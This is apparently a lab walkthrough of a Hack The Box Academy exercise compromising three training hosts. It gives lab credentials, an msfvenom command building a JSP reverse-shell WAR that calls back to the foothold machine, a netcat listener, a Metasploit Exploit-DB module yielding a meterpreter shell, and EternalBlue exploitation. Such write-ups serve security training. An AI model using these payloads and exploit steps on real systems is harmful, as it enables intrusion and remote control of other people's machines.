 # The Live Engagement
Credentials and Information:<br>
Foothold:
- IP: `10.129.204.126`
- Credentials: `htb-student:HTB_@cademy_stdnt!` (can be used by RDP)

![Layout](img/target_map.png) <br>
We need to exploit these 3 hosts with the Foothold PC.

## Approach
Through this exercise, I will be connected to the foothold machine.
```bash
xfreerdp3 /v:10.129.204.126 /u:htb-student /p:HTB_@cademy_stdnt! /dynamic-resolution
```
We find that there is an interesting file, `access-creds.txt`.<br>
Credentials obtained:
- `admin:admin123!@#` (to manage blog)
- `tomcat:Tomcatadm` (to manage Tomcat on apache)

### Host 1
First, we need to find the hostname of Host 1.<br>
On the foothold machine, we can perform an Nmap scan to obtain the hostname of Host 1.
```bash
sudo nmap -A 172.16.1.11
```
![Hostname](img/hostname_1.png)<br>
We can see that the hostname of Host 1 is `SHELLS-WINSVR`.

Host 1 appears to be a web server since it is hosting a web application on port 8080.<br>
Visiting `https://172.16.1.11:8080` on Firefox, we can see that the website runs on Tomcat, which is written in Java.

We see that there is a "Manager App" portion, but we require credentials to access it. Using the credentials from `access-creds.txt`, we successfully logged in to Tomcat Web Application Manager.

Looking around the page, I noticed that we can deploy a WAR file.
![WAR section](img/war_section.png)
I will create a WAR java/jsp compatible web reverse shell payload.
The internal IP of the foothold machine is `172.16.1.5` through `ifconfig`.
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=443 -f war -o rev_shell.war
```
We will first start a listener on the foothold machine.
```bash
sudo nc -nlvp 443
```
Then, we upload and deploy `rev_shell.war`. <br>
To activate the WAR file, we can access `http://172.16.1.11/rev_shell`.

We then obtained a reverse shell on Host 1.
![Reverse shell](img/host1_revshell.png)
We can then change directory to `C:\Shares` and find out that the directory located in `C:\Shares` is `dev-share`.

### Host 2
Host 2 appears to be a blog when we access `blog.inlanefreight.local`.

To obtain the Linux distribution that Host-2 is running, we can perform an Nmap scan.
```bash
nmap -A blog.inlanefreight.local
```
![Host 2](img/host_2.png) <br>
We can see that Host-2 is running `Ubuntu`. Host 2's IP is `172.16.1.12`.

Upon looking through the blog, I noticed a post regarding an exploit on the blog itself. <br>
![Host 2 blog](img/host2_blog.png)<br>
Looking through the `50064.rb` exploit code, I found out that the reverse shell is written in PHP.

We can use `locate 50064.rb` to check if the foothold machine has the exploit code, and there is!<br>
We will need to move the exploit code to `/modules/exploits` under the Metasploit-Framework.
```bash
cp /usr/share/exploitdb/exploits/php/webapps/50064.rb /usr/share/metasploit-framework/modules/exploits/50064.rb
```
We can then start up Metasploit and execute the exploit.
```bash
msfconsole
```
```
msf6 > reload_all				## Load 50064.rb
msf6 > use 50064.rb
```
We will configure the options of the module to fit our needs.
![exploit options](img/host2_msfconsole.png)<br>
We managed to obtain a meterpreter shell, and subsequently obtained the contents of `/customscripts/flag.txt`. <br>
![Flag](img/host2_flag.png)

### Host 3
We first perform a Nmap scan on the target.
```bash
nmap -A 172.16.1.13
```
![Nmap Results](img/host_3.png)<br>
We can see that the hostname for Host 3 is `SHELLS-WINBLUE`.

![Nmap Results](img/host3_nmap.png)<br>
We can see Host 3 is running Windows Server 2016, EternalBlue is well known to be used against Windows Server version 16 or earlier.

Let's check if Host 3 is indeed vulnerable to EternalBlue with Metasploit's auxiliary module.
```bash
msfconsole
```
```
## Determine if Host 3 is vulnerable to EternalBlue
msf6 > use auxiliary/scanner/smb/smb_ms17_010
```
We configure the module's options to fit our purpose.
![Auxiliary EternalBlue](img/host3_auxiliary.png)<br>
We find out that Host 3 is indeed vulnerable to EternalBlue. So, let's carry out the exploit for EternalBlue on Host 3 to gain a shell on it.
```
msf6 > use exploit/windows/smb/ms17_010_psexec
```
We will configure the necessary options again and execute the exploit.
![MSF exploit](img/host3_msfoptions.png)<br>
We successfully obtained a shell on Host 3 and we can print the necessary contents.
![Host 3 flag](img/host3_answer.png)